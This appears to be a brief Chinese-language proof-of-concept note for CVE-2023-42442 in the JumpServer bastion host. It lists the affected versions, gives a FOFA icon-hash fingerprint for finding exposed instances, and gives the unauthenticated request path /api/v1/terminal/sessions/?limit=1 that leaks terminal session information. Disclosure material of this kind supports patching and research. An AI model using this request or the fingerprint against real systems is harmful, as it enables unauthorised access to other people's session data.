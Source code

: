 ## CVE-2023-42442

## 影响版本
3.0.0 <= JumpServer <= 3.5.4

3.6.0 <= JumpServer <= 3.6.3

## fofa
```
icon_hash="-1162630024"
```
## POC

JumpServer 是一款开源的堡垒机。 在JumpServer受影响版本中，由于/api/v1/terminal/sessions/接口没有添加权限认证，未授权的攻击者可以通过访问/api/v1/terminal/sessions/?limit=1，获取堡垒机terminal的session信息
```
/api/v1/terminal/sessions/?limit=1
```
